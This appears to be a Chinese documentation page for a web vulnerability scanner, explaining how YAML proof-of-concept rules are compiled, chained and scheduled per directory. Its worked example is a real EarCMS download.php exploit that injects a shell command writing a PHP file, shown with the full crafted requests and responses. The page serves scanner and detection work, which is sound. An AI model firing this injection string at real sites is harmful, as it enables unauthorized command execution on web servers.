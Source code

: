 # POC运行逻辑

## 运行逻辑

在一个 yaml poc 从文件加载到 go 的某个结构后，会首先对表达式进行预编译和静态类型检查，这一过程主要作用于 yaml 中的 set 和 expression 部分，这两部分是 yaml poc 的关键，主要用到了 CEL 表达式。

在检查完成后，内存中的 poc 就处于等待调度的状态了。每当有**新的请求**来临时，会执行类似如下的伪代码:

```go
for rule in rules:
    newReq = mutate_request_by_rule(req, rule)
    response = send(newReq)
    if not check_response(response, rule):
        break
```

简单来讲就是将请求根据 rule 中的规则对请求变形，然后获取变形后的响应，再检查响应是否匹配 `expression` 部分的表达式。如果匹配，就进行下一个 rule，如果不匹配则退出执行。

如果成功执行完了最后一个 rule，那么代表目标有漏洞，将 detail 中的信息附加到漏洞输出后就完成了单个 poc 的整个流程。

拿一个真实的poc来举例：

```yaml
name: poc-yaml-earcms-download-php-exec
manual: true
transport: http
set:
    r1: randomInt(40000, 44800)
    randname: randomLowercase(6)
rules:
    r0:
        request:
            cache: true
            method: GET
            path: /source/pack/127.0.0.1/download.php?site=1%3Becho+%27%3C%3Fphp+echo+md5%28{{r1}}%29%3Bunlink%28__FILE__%29%3B%3F%3E%27+%3E+{{randname}}.php%3B
            follow_redirects: false
        expression: response.status == 200
    r1:
        request:
            cache: true
            method: GET
            path: /source/pack/127.0.0.1/{{randname}}.php
            follow_redirects: false
        expression: response.status == 200 && response.body.bcontains(bytes(md5(string(r1))))
expression: r0() && r1()
detail:
    author: sharecast
    links:
        - https://zhuanlan.zhihu.com/p/81934322
    vulnerability:
        id: CT-416446
```

当系统得到该poc后，会将rules拆分成一个个rule，例如r0，r1，并根据与rules同一个层级的expression来控制这些规则的发送顺序与最后是否有漏洞的判断。

然后就会等待请求接收过来，例如这样一个请求：

```
GET / HTTP/1.1
Host: www.xxx.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Connection: close
```

然后系统会将r0中的内容与该请求进行结合，使得上述请求变为如下：

```
GET /source/pack/127.0.0.1/download.php?site=1%3Becho+%27%3C%3Fphp+echo+md5%2841463%29%3Bunlink%28__FILE__%29%3B%3F%3E%27+%3E+skqgld.php%3B HTTP/1.1
Host: www.xxx.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Connection: close
```

其中的随机数{{r1}}将被替换为系统按要求生成的随机数41463，然后在组织好之后，发送出去，并接收一个返回包(包体已忽略)

```
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 10 Jun 2022 07:11:34 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Strict-Transport-Security: max-age=31536000
Content-Length: 3316

xxxxxxxxxxxxxxxxxxxxxxx
```

这时会有一个函数来解析r0中的expression，例如这个expression，系统会匹配返回包中的状态码是否是200，如果是，则这个规则的状态将会为true，那么将会进入到下一个rule，并构建一个新的请求：

```
GET /source/pack/127.0.0.1/skqgld.php HTTP/1.1
Host: www.xxx.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Connection: close
```

可以发现规则中的path：/source/pack/127.0.0.1/{{randname}}.php已经被替换为/source/pack/127.0.0.1/skqgld.php并合并入新的请求中，然后接收到一个新的返回包：

```
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 10 Jun 2022 07:11:34 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Strict-Transport-Security: max-age=31536000
Content-Length: 32

5c7fcde320b91be7c4cf317a6115910a
```

然后系统会将{{r1}}这个随机数，也就是41463进行md5加密，然后用加密后的结果去返回包中匹配，匹配到了则返回true。

这个时候，与rules同一个层级的expression会发现两个规则都是true，满足`r0() && r1()` 这样一个条件，于是便确认存在该漏洞，将该漏洞输出。

## 加载逻辑

目前版本的实现对**新的请求**定义为: **新的目录**, 比如下面几个 url 依次进入检查队列时，执行情况如下：

```
http://exmaple.com/     会执行, 上下文为 / 
http://example.com/a    不会再次执行，因为上下文同样为 /
http://example.com/a/b  会执行，上下文为 /a/
http://example.com/a/c/ 不会执行, 超过深度限制 (depth)
```

其中 `depth` 是 phantasm 插件的一个配置项，用于指定检测深度，可以参考： [插件配置](/configration/plugins?id=dirscan)